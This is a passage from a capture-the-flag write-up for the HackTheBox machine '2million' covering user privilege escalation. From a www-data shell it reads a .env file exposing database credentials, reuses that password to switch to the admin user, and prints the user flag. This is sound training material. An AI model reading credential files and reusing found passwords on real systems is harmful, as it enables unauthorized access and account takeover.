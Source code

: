- LET'S FFFFFFFFFFFFFF GOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO!!!! This whole API exploitation process took more than 2 hours.

---

## 🧍 User Privilege Escalation

- We got a shell as `www-data` and we can find `admin` credentials immediately in that same directory.

  ```
  www-data@2million:~/html$ cat .env
  DB_HOST=127.0.0.1
  DB_DATABASE=htb_prod
  DB_USERNAME=admin
  DB_PASSWORD=SuperDuperPass123
  ```
  
- I'll keep saying this, NEVER REUSE PASSWORDS!!!!!

  ```
  www-data@2million:~$ cd /home
  www-data@2million:/home$ ls -al
  total 12
  drwxr-xr-x  3 root  root  4096 Jun  6  2023 .
  drwxr-xr-x 19 root  root  4096 Jun  6  2023 ..
  drwxr-xr-x  7 admin admin 4096 Jun 11 14:31 admin
  
  www-data@2million:/home$ cd admin
  www-data@2million:/home/admin$ ls -al
  total 48
  drwxr-xr-x 7 admin admin 4096 Jun 11 14:31 .
  drwxr-xr-x 3 root  root  4096 Jun  6  2023 ..
  lrwxrwxrwx 1 root  root     9 May 26  2023 .bash_history -> /dev/null
  -rw-r--r-- 1 admin admin  220 May 26  2023 .bash_logout
  -rw-r--r-- 1 admin admin 3771 May 26  2023 .bashrc
  drwx------ 2 admin admin 4096 Jun  6  2023 .cache
  drwx------ 3 admin admin 4096 Jun 11 13:47 .gnupg
  -rw------- 1 admin admin   20 Jun 11 13:37 .lesshst
  drwxrwxr-x 3 admin admin 4096 Jun 11 13:52 .local
  -rw-r--r-- 1 admin admin  807 May 26  2023 .profile
  drwx------ 2 admin admin 4096 Jun  6  2023 .ssh
  drwxrwxr-x 5 admin admin 4096 Jun 11 18:31 CVE-2023-0386
  -rw-r----- 1 root  admin   33 Jun 11 04:06 user.txt
  
  www-data@2million:/home/admin$ cat user.txt 
  cat: user.txt: Permission denied
  
  www-data@2million:/home/admin$ su admin
  Password: 
  To run a command as administrator (user "root"), use "sudo <command>".
  See "man sudo_root" for details.
  
  admin@2million:~$ cat user.txt 
  671055342b72befb98824cdbb4eca724
  ```
  